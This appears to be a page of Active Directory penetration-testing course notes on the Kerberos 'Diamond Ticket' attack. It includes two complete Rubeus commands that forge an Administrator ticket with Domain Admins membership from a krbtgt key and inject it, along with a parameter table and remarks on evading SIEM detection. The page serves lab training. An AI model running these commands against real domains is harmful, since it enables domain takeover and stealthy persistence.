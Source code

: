 # 8.3 - Diamond Ticket

#### Diamond Ticket (TGT Modification Attack)

A **Diamond Ticket** is a modified version of a legitimate **TGT (Ticket Granting Ticket)**. Unlike Golden Tickets, which are completely forged from scratch, Diamond Tickets are based on **real TGTs** that are **decrypted, modified, and re-encrypted** using the **krbtgt account key**.

***

#### Key Characteristics

* A **Diamond Ticket** is a **TGT modification attack**, whereas a Golden Ticket is a **TGT forgery attack**.
* A legitimate TGT is **captured and decrypted**, its content (e.g., username, groups) is modified, and then it is **re-encrypted** with the **krbtgt AES key**.
* The ticket will have **valid timestamps**, since they are inherited from a real DC-issued ticket.
* More stealthy than Golden Tickets because:
  * TGT appears **genuinely issued by the DC**.
  * TGS requests based on this ticket **match** an actual TGT.
  * Less detectable by SIEMs and monitoring tools.
* Persistence duration depends on **TGT lifetime** and **krbtgt key rotation policy**.

***

#### Forge a Diamond Ticket with Credentials

You can use **Rubeus** to create a Diamond Ticket using the **krbtgt AES key** and the credentials of a domain user:

```powershell
Rubeus.exe diamond /krbkey:d7ac4db5b820be57cc79f58f196a0e5b /user:devan /password:new_password123 /enctype:rc4 /ticketuser:Administrator /domain:dev-angelist.lab /dc:corp-dc.dev-angelist.lab /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

***

#### Forge a Diamond Ticket Using `/tgtdeleg`

If you already have a **TGT delegation token** (captured via `Rubeus tgtdeleg`), you can generate a Diamond Ticket **without needing user credentials**:

```powershell
Rubeus.exe diamond /krbkey:d7ac4db5b820be57cc79f58f196a0e5b /tgtdeleg /enctype:rc4 /ticketuser:Administrator /domain:dev-angelist.lab /dc:corp-dc.dev-angelist.lab /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

***

#### Parameters Explained

| Option                             | Description                                                               |
| ---------------------------------- | ------------------------------------------------------------------------- |
| `/diamond`                         | Rubeus module for crafting a Diamond Ticket.                              |
| `/krbkey:<key>`                    | AES256 key of the `krbtgt` account (required for re-encryption).          |
| `/user:studentx` + `/password:...` | Domain user credentials to request the real TGT.                          |
| `/tgtdeleg`                        | Uses a captured TGT delegation token instead of user credentials.         |
| `/ticketuser:administrator`        | User to impersonate in the new ticket.                                    |
| `/ticketuserid:500`                | RID of the impersonated user (default 500 = Administrator).               |
| `/groups:512`                      | Groups the impersonated user should be a member of.                       |
| `/domain`, `/dc`                   | Target domain and Domain Controller.                                      |
| `/enctype:aes`                     | Encryption type (must match the krbtgt key used).                         |
| `/createnetonly:<path>`            | Creates a netonly logon session to isolate the context (e.g., spawn cmd). |
| `/show`                            | Displays the forged ticket before injection.                              |
| `/ptt`                             | Injects the forged ticket into the current session.                       |

### Labs

* [Learning Object 10 lab](../lab/10-lo1-0.md)
